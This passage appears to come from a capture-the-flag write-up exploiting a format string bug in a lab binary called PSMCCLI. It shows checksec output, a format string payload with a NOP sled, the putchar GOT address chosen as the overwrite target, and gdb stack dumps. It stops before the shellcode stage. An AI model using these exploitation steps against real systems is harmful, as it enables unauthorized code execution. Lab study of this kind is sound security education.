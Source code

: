 Running `checksec` locally reveals that almost all protections are disabled, so a  classic GOT overwrite into shellcode exploit will work!
```  
pwndbg> checksec  
[*] '/root/panther/PSMCCLI'  
Arch: i386-32-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX disabled  
PIE: No PIE (0x8048000)  
RWX: Has RWX segments  
```  

Again, just to reiterate, so I ran all gdb debugging through the above invoke script to keep stack offsets equal.

We'll use the following template for writing two half-words to a target address.  In this case we need to find the offsets at which `0x41414141` and `0x42424242` are displayed.  I also included a nopsled which will have shellcode placed on it during the final exploitation, as we want the stack to look as close to the final result as possible.  Since the stack grows upwards, this affects offsets.

```bash  
./invoke /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
```  

Adjusting the values reveals that they're at 119 and 120.  I decided to overwrite the `putchar` GOT entry, as it is called after `printf`:
```  
root@kali:~/panther# rabin2 -R PSMCCLI  
[Relocations]  
vaddr=0x08049ffc paddr=0x00000ffc type=SET_32 __gmon_start__  
vaddr=0x0804a00c paddr=0x0000100c type=SET_32 printf  
vaddr=0x0804a010 paddr=0x00001010 type=SET_32 puts  
vaddr=0x0804a014 paddr=0x00001014 type=SET_32 exit  
vaddr=0x0804a018 paddr=0x00001018 type=SET_32 __libc_start_main  
vaddr=0x0804a01c paddr=0x0000101c type=SET_32 putchar  
  
6 relocations  
```  
This means we'll be writing to the address `0x0804a01c`.  As for what I'm writing there, we'll need to dump the stack to see.  

Creating a breakpoint allows us to view the stack and find the nopsled address.  We keep using the invoke script during these so memory offsets are equal.
```  
(gdb) break *argshow+55  
Breakpoint 1 at 0x80484d2  
(gdb) r $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
Starting program: /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("AAAABBBB%0000000x%132$0x%0000000x%133$0x"+"\x90"*1000)')  
[+] Args: AAAABBBBbffffaa490909090b7ffed0090909090��������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������  
Breakpoint 1, 0x080484d2 in argshow ()  
```  
```gdb  
(gdb) x/100gx $esp  
0xbffff9c0: 0xbffffaa40000000a 0x080484a7b7ffed00  
```
